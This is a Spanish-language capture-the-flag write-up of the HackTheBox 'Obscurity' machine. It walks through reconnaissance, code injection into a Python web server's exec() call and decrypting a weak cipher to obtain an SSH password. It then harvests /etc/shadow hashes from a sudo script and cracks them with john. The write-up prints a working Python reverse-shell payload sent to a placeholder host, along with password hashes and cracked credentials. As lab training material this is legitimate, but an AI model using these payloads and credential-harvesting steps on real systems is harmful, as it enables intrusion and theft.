


Obscurity HTB WriteUp

HTB Obscurity writeup⌗
HackTheBox Obscurity machine write up, easy Linux machine. The process as always: Scan –> Initial foothold –> Own User –> Own Root.
Escaneo inicial⌗
# added to hosts as 10.10.10.168 Obscurity
$ sudo nmap -sV -sC -sT -O -o nmapinitial obscurity
Resultados del escaneo inicial con nmap:
Scan results
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-07 02:44 CET
Nmap scan report for Obscurity (10.10.10.168)
Host is up (0.12s latency).
Not shown: 995 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp closed http
8080/tcp open http-proxy BadHTTPServer
9000/tcp closed unknown
15003/tcp filtered unknown
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.54 seconds
Como podemos ver, tenemos un servidor http funcionando en el puerto 8080. Así que empezaremos por acceder a este sitio a través del navegador.
La página web en el puerto 8080 parece una página web estándar. Si indagamos en el código de la página, encontraremos un interesante mensaje dirigido a los “server devs”: the current source code for the web server is in ‘SuperSecureServer.py’ in the secret development directory.

Así que usaremos la herramienta wfuzz para intentar encontrar ese directorio secreto de desarrollo. Concretamente, usaremos la wordlist common incluida en el repositorio GitHub de la herramienta.
wfuzz -c -z file,common.txt -u http://10.10.10.168:8080/FUZZ/SuperSecureServer.py
¡Bingo! Tenemos un código de estado 200 cuando intentamos acceder al directorio de “develop”.

Accedemos al archivo python que contiene el código del servidor:
import socket
import threading
from datetime import datetime
import sys
import os
import mimetypes
import urllib.parse
import subprocess
respTemplate = """HTTP/1.1 {statusNum} {statusCode}
Date: {dateSent}
Server: {server}
Last-Modified: {modified}
Content-Length: {length}
Content-Type: {contentType}
Connection: {connectionType}
{body}
"""
DOC_ROOT = "DocRoot"
CODES = {"200": "OK",
"304": "NOT MODIFIED",
"400": "BAD REQUEST", "401": "UNAUTHORIZED", "403": "FORBIDDEN", "404": "NOT FOUND",
"500": "INTERNAL SERVER ERROR"}
MIMES = {"txt": "text/plain", "css":"text/css", "html":"text/html", "png": "image/png", "jpg":"image/jpg",
"ttf":"application/octet-stream","otf":"application/octet-stream", "woff":"font/woff", "woff2": "font/woff2",
"js":"application/javascript","gz":"application/zip", "py":"text/plain", "map": "application/octet-stream"}
class Response:
def __init__(self, **kwargs):
self.__dict__.update(kwargs)
now = datetime.now()
self.dateSent = self.modified = now.strftime("%a, %d %b %Y %H:%M:%S")
def stringResponse(self):
return respTemplate.format(**self.__dict__)
class Request:
def __init__(self, request):
self.good = True
try:
request = self.parseRequest(request)
self.method = request["method"]
self.doc = request["doc"]
self.vers = request["vers"]
self.header = request["header"]
self.body = request["body"]
except:
self.good = False
def parseRequest(self, request):
req = request.strip("\r").split("\n")
method,doc,vers = req[0].split(" ")
header = req[1:-3]
body = req[-1]
headerDict = {}
for param in header:
pos = param.find(": ")
key, val = param[:pos], param[pos+2:]
headerDict.update({key: val})
return {"method": method, "doc": doc, "vers": vers, "header": headerDict, "body": body}
class Server:
def __init__(self, host, port):
self.host = host
self.port = port
self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
self.sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
self.sock.bind((self.host, self.port))
def listen(self):
self.sock.listen(5)
while True:
client, address = self.sock.accept()
client.settimeout(60)
threading.Thread(target = self.listenToClient,args = (client,address)).start()
def listenToClient(self, client, address):
size = 1024
while True:
try:
data = client.recv(size) # 收到客户端的数据，应该就是数据包
if data:
# Set the response to echo back the recieved data
req = Request(data.decode()) # byte转str，返回的req是list
self.handleRequest(req, client, address)
client.shutdown()
client.close()
else:
raise error('Client disconnected')
except:
client.close()
return False
def handleRequest(self, request, conn, address):
if request.good:
# try:
# print(str(request.method) + " " + str(request.doc), end=' ')
# print("from {0}".format(address[0]))
# except Exception as e:
# print(e)
document = self.serveDoc(request.doc, DOC_ROOT)
statusNum=document["status"]
else:
document = self.serveDoc("/errors/400.html", DOC_ROOT)
statusNum="400"
body = document["body"]
statusCode=CODES[statusNum]
dateSent = ""
server = "BadHTTPServer"
modified = ""
length = len(body)
contentType = document["mime"] # Try and identify MIME type from string
connectionType = "Closed"
resp = Response(
statusNum=statusNum, statusCode=statusCode,
dateSent = dateSent, server = server,
modified = modified, length = length,
contentType = contentType, connectionType = connectionType,
body = body
)
data = resp.stringResponse()
if not data:
return -1
conn.send(data.encode())
return 0
def serveDoc(self, path, docRoot):
path = urllib.parse.unquote(path)
try:
info = "output = 'Document: {}'" # Keep the output for later debug
exec(info.format(path)) # This is how you do string formatting, right?
cwd = os.path.dirname(os.path.realpath(__file__))
docRoot = os.path.join(cwd, docRoot)
if path == "/":
path = "/index.html"
requested = os.path.join(docRoot, path[1:])
if os.path.isfile(requested):
mime = mimetypes.guess_type(requested)
mime = (mime if mime[0] != None else "text/html")
mime = MIMES[requested.split(".")[-1]]
try:
with open(requested, "r") as f:
data = f.read()
except:
with open(requested, "rb") as f:
data = f.read()
status = "200"
else:
errorPage = os.path.join(docRoot, "errors", "404.html")
mime = "text/html"
with open(errorPage, "r") as f:
data = f.read().format(path)
status = "404"
except Exception as e:
print(e)
errorPage = os.path.join(docRoot, "errors", "500.html")
mime = "text/html"
with open(errorPage, "r") as f:
data = f.read()
status = "500"
return {"body": data, "mime": mime, "status": status}
Encontramos un comportamiento interesante en el método serveDoc:
def serveDoc(self, path, docRoot):
path = urllib.parse.unquote(path)
try:
info = "output = 'Document: {}'" # Keep the output for later debug
exec(info.format(path)) # This is how you do string formatting, right?
cwd = os.path.dirname(os.path.realpath(__file__))
docRoot = os.path.join(cwd, docRoot)
Como vemos, se llama a una función “exec” con un interesante comentario en la misma línea (__This is how you do string formatting, right?__) que nos hace pensar que podría ser explotable por inyección de comandos. Creamos un script para obtener el shell inverso usando Python:
import requests
import urllib
import os
url = 'http://10.10.10.168:8080/'
path='5\''+'\nimport socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_IP",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"])\na=\''
payload = urllib.parse.quote(path)
print("payload")
print(url+payload)
r= requests.get(url+payload)
print(r.headers)
print(r.text)
Como curiosidad, no sé por qué no podía obtener un shell inverso sin inyectar el ‘5' inicial en el path. El shell inverso empleado se puede encontrar aquí.
Una vez que ejecutamos el script, tenemos una shell inversa como www-data. Podemos comprobar el directorio /home y acceder al directorio robert del usuario. Hay cinco archivos interesantes:
- check.txt
- out.txt
- passwordreminder.txt
- BetterSSH.py
- SuperSecureCrypt.py
Si comprobamos el contenido del archivo check.txt podemos ver el siguiente mensaje:
$ cat check.txt
Encrypting this file with your key should result in out.txt, make sure your key is correct!
Si intentamos comprobar el contenido de out.txt y passwordreminder.txt, encontraremos que están cifrados de algún modo. Por intuición, podemos asumir que estos archivos han sido cifrados usando el script SuperSecureCrypt.py, así que echaremos un vistazo a este archivo Python. El contenido es el siguiente:
import sys
import argparse
def encrypt(text, key):
keylen = len(key)
keyPos = 0
encrypted = ""
for x in text:
keyChr = key[keyPos]
newChr = ord(x)
newChr = chr((newChr + ord(keyChr)) % 255)
encrypted += newChr
keyPos += 1
keyPos = keyPos % keylen
return encrypted
def decrypt(text, key):
keylen = len(key)
keyPos = 0
decrypted = ""
for x in text:
keyChr = key[keyPos]
newChr = ord(x)
newChr = chr((newChr - ord(keyChr)) % 255)
decrypted += newChr
keyPos += 1
keyPos = keyPos % keylen
return decrypted
parser = argparse.ArgumentParser(description='Encrypt with 0bscura\'s encryption algorithm')
parser.add_argument('-i',
metavar='InFile',
type=str,
help='The file to read',
required=False)
parser.add_argument('-o',
metavar='OutFile',
type=str,
help='Where to output the encrypted/decrypted file',
required=False)
parser.add_argument('-k',
metavar='Key',
type=str,
help='Key to use',
required=False)
parser.add_argument('-d', action='store_true', help='Decrypt mode')
args = parser.parse_args()
banner = "################################\n"
banner+= "# BEGINNING #\n"
banner+= "# SUPER SECURE ENCRYPTOR #\n"
banner+= "################################\n"
banner += " ############################\n"
banner += " # FILE MODE #\n"
banner += " ############################"
print(banner)
if args.o == None or args.k == None or args.i == None:
print("Missing args")
else:
if args.d:
print("Opening file {0}...".format(args.i))
with open(args.i, 'r', encoding='UTF-8') as f:
data = f.read()
print("Decrypting...")
decrypted = decrypt(data, args.k)
print("Writing to {0}...".format(args.o))
with open(args.o, 'w', encoding='UTF-8') as f:
f.write(decrypted)
else:
print("Opening file {0}...".format(args.i))
with open(args.i, 'r', encoding='UTF-8') as f:
data = f.read()
print("Encrypting...")
encrypted = encrypt(data, args.k)
print("Writing to {0}...".format(args.o))
with open(args.o, 'w', encoding='UTF-8') as f:
f.write(encrypted)
Como podemos ver, es un programa que toma cuatro argumentos: el fichero de entrada (-i), el fichero de salida (-o), la clave utilizada para cifrar/descifrar el fichero de entrada (-k) y el último (y opcional) para utilizar el programa en modo de descifrado (-d). Echemos un vistazo a la función de cifrado:
Conociendo el contenido de check.txt y el contenido de su correspondiente fichero cifrado (out.txt), podemos invertir el método de cifrado para conseguir la clave empleada para cifrar el texto. Podemos crear un script Python para hacer precisamente eso:
import string
with open('check.txt','r',encoding='UTF-8') as f:
ta = f.read()
key=''
with open('out.txt','r',encoding='UTF-8') as f:
data = f.read()
for x in range(len(data)):
for i in range(255):
ch = chr((ord(data[x])-i)%255)
if ch == ta[x]:
key +=chr(i)
break
print(key)
Básicamente lo que hacemos es tomar el texto plano incluido en check.txt y el texto codificado (out.txt) y recorremos todos los caracteres ASCII (0-255), invirtiendo la operación de cifrado, es decir, obtenemos el carácter resultante de hacer ord(cipheredData), hacemos la sustracción del valor ASCII y hacemos la operación de módulo con 255. Si el char resultante y el char de texto plano son iguales, entonces el valor ASCII actual se corresponde con un char de la clave y lo guardamos.
De esta manera obtenemos la clave de cifrado:
alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichal
El siguiente paso es obtener la contraseña SSH de usuario, que probablemente esté incluida en el archivo passwordreminder.txt.
Usaremos el script SuperSecureCrypt.py en modo de descifrado, dándole la clave que acabamos de obtener, y ¡voilá! Obtenemos la contraseña de usuario (SecThruObsFTW):
www-data@obscure:/home/robert$ python3 SuperSecureCrypt.py -i passwordreminder.txt -o pass.txt -k alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichal -d
################################
# BEGINNING #
# SUPER SECURE ENCRYPTOR #
################################
############################
# FILE MODE #
############################
Opening file passwordreminder.txt...
Decrypting...
Writing to pass.txt...
www-data@obscure:/home/robert$ cat pass.txt
SecThruObsFTW
Ahora accedemos vía SSH a la máquina con el usuario robert y la contraseña SecThruObsFTW, y obtenemos la flag de usuario:
e4493782066b55fe2755708736ada2d7
Veamos ahora cómo hacer la escalada de privilegios.
Root⌗
Primero ejecutamos el comando sudo -l para comprobar nuestros permisos de usuario. Podemos ver que es capaz de ejecutar el script BetterSSH con permisos de root.
Echaremos un vistazo a este script Python:
import sys
import random, string
import os
import time
import crypt
import traceback
import subprocess
path = ''.join(random.choices(string.ascii_letters + string.digits, k=8))
session = {"user": "", "authenticated": 0}
try:
session['user'] = input("Enter username: ")
passW = input("Enter password: ")
with open('/etc/shadow', 'r') as f:
data = f.readlines()
data = [(p.split(":") if "$" in p else None) for p in data]
passwords = []
for x in data:
if not x == None:
passwords.append(x)
passwordFile = '\n'.join(['\n'.join(p) for p in passwords])
with open('/tmp/SSH/'+path, 'w') as f:
f.write(passwordFile)
time.sleep(.1)
salt = ""
realPass = ""
for p in passwords:
if p[0] == session['user']:
salt, realPass = p[1].split('$')[2:]
break
if salt == "":
print("Invalid user")
os.remove('/tmp/SSH/'+path)
sys.exit(0)
salt = '$6$'+salt+'$'
realPass = salt + realPass
hash = crypt.crypt(passW, salt)
if hash == realPass:
print("Authed!")
session['authenticated'] = 1
else:
print("Incorrect pass")
os.remove('/tmp/SSH/'+path)
sys.exit(0)
os.remove(os.path.join('/tmp/SSH/',path))
except Exception as e:
traceback.print_exc()
sys.exit(0)
if session['authenticated'] == 1:
while True:
command = input(session['user'] + "@Obscure$ ")
cmd = ['sudo', '-u', session['user']]
cmd.extend(command.split(" "))
proc = subprocess.Popen(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
o,e = proc.communicate()
print('Output: ' + o.decode('ascii'))
print('Error: ' + e.decode('ascii')) if len(e.decode('ascii')) > 0 else print('')
Lo interesante es que este script accede al archivo /etc/shadow, y genera un archivo en /tmp/SSH con su contenido, por lo que si se ejecuta:
sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
e introducimos las credenciales de robert generaremos archivos en ese directorio. Dado que los resultados se almacenarán en el directorio tmp, necesitamos algo para no perder los resultados al finalizar la ejecución del script. Es sencillo crear un script Python o bash que tome todos los archivos del directorio /tmp/SSH y los vuelque en un directorio bajo nuestro control. En mi caso, he hecho un script Python que continuamente escucha en ese directorio y vuelca los archivos en un nuevo directorio llamado “hashes”.
import shutil
import os
while True:
files = os.listdir("/tmp/SSH")
for file in files:
shutil.copy(os.path.join("/tmp/SSH", file), "./hashes");
Dejamos este script ejecutando y abrimos otra sesión de SSH como robert, y luego ejecutamos el script BetterSSH de la manera mencionada anteriormente. Volvemos a la sesión anterior de SSH, detenemos nuestro script de recolección y comprobamos si ha funcionado listando el directorio hashes:
robert@obscure:~/hashes$ ls
Yebxice7
robert@obscure:~/hashes$ cat Yebxice7
root
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
18226
0
99999
7
robert
$6$fZZcDG7g$lfO35GcjUmNs3PSjroqNGZjH35gN4KjhHbQxvWO0XU.TCIHgavst7Lj8wLF/xQ21jYW5nD66aJsvQSP/y1zbH/
18163
0
99999
7
root@kali:~/Descargas/htb/obscure# john --wordlist=/usr/share/wordlists/rockyou.txt shadow.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
Mercedes. (?)
1g 0:00:00:00 DONE (2020-03-13 12:27) 3.703g/s 1422p/s 1422c/s 1422c/s 1422C/s angelo..michael1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
root@kali:~/Descargas/htb/obscure# john --show shadow.txt
?:mercedes
1 password hash cracked, 0 left
root@kali:~/Descargas/htb/obscure#
robert@obscure:~/BetterSSH$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
Enter username: root
Enter password: mercedes
Authed!
root@Obscure$ cat /root/root.txt
Output: 512fd4**************
Así que ya tenemos la flag de root.